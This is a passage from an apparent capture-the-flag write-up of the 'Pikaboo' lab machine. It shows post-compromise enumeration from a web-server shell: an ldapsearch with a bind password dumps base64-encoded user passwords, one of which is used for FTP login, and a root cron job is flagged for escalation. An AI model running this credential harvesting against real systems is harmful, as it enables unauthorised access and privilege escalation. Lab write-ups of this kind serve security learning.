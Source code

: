 Checking `/etc/hosts`, we have domain names.

```sh
www-data@pikaboo:/opt/pokeapi/config$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	pikaboo.htb	pikaboo

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

With all the parameters, we can now query ldap with `ldapsearch`

```sh
ldapsearch -x -h 127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g' -b 'dc=pikaboo,dc=htb'
[snip]
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==

# binduser, users, pikaboo.htb
dn: cn=binduser,ou=users,dc=pikaboo,dc=htb
cn: binduser
objectClass: simpleSecurityObject
objectClass: organizationalRole
userPassword:: Sn40MiVXP1BGSGxdZw==
```

We have some base64-encoded credentials. Only the password for `ftp.pikaboo.htb` is new to us though. With the password, we can now log into FTP as "pwnmeow". We can't use it to log into SSH or `su` into pwnmeow though. We can't seem do download anything from or upload files to `/` but we can upload in the subdirectories, so we just make note of it for later.

Looking at cron jobs ...

```sh
www-data@pikaboo:/opt/pokeapi/config$ cat /etc/cron*
[snip]
* * * * * root /usr/local/bin/csvupdate_cron
```

We find an executable running as root every minute. Checking the file ...
